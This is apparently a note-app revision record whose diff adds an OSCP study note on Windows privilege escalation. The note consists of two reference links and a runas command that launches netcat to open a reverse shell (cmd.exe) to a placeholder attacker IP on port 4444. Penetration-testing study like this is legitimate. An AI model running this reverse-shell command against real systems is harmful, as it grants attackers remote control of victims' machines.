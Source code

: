 id: ec013d2dde0146ac8e14928e7ff5ec67
parent_id: f3c1b00097df4f6a9d45316845f5e4c4
item_type: 1
item_id: 36e8b1abdf2f4ed19ec5e03306ca9155
item_updated_time: 1643604170615
title_diff: "[]"
body_diff: "[{\"diffs\":[[-1,\"![7f7a6116ba9c0686eeb15869ed9dfb23.png](:/105b5332a73648dcbab924774c4f8ffb)\"],[1,\"https://blog.adithyanak.com/oscp-preparation-guide/windows-privilege-escalation\\\n\\\n![7f7a6116ba9c0686eeb15869ed9dfb23.png](:/105b5332a73648dcbab924774c4f8ffb)\\\n\\\n> C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\\runas.exe /env /noprofile /user: <username><password>\\\"c:\\\\\\\\users\\\\\\\\Public\\\\\\\\\nc.exe -nc &lt;attacker-ip&gt; 4444 -e cmd.exe\\\"</password></username>\\\n\\\n![f0052db1453f6b0ee5cc49e29b99bd9b.png](:/ac24ce9a2c934c51b443151e67046c2b)\\\n\\\nhttps://book.hacktricks.xyz/windows/stealing-credentials\"]],\"start1\":0,\"start2\":0,\"length1\":75,\"length2\":460}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-31T04:43:37.751Z
created_time: 2022-01-31T04:43:37.751Z
type_: 13